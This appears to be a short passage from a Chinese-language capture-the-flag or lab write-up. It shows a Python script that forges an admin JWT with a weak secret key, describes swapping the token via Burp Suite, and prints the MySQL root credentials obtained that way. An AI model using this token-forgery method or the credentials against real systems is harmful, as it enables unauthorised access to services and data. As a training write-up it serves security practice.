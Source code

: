 可以使用**python**脚本来生成**jwttoken**

```
import jwt
import datetime

# 用于加密的密钥
SECRET_KEY = 'noob'

# 生成JWT的载荷
payload = {
    'username': 'admin',
    'exp': datetime.datetime.utcnow() + datetime.timedelta(hours=1)  # 设置过期时间为1小时
}

# 使用 pyjwt 加密生成 JWT
encoded_jwt = jwt.encode(payload, SECRET_KEY, algorithm='HS256')
print("Encoded JWT:", encoded_jwt)
```

使用**burpsuite**进行抓包替换**token**，得到**mysql**的登录凭证

![](./images/image-131.png)

```
Mysql account root:ThePasswordYouNeverCracked
```

在数据库中发现一段哈希值，使用**pbkdf2**进行加密的

![](./images/image-132.png)

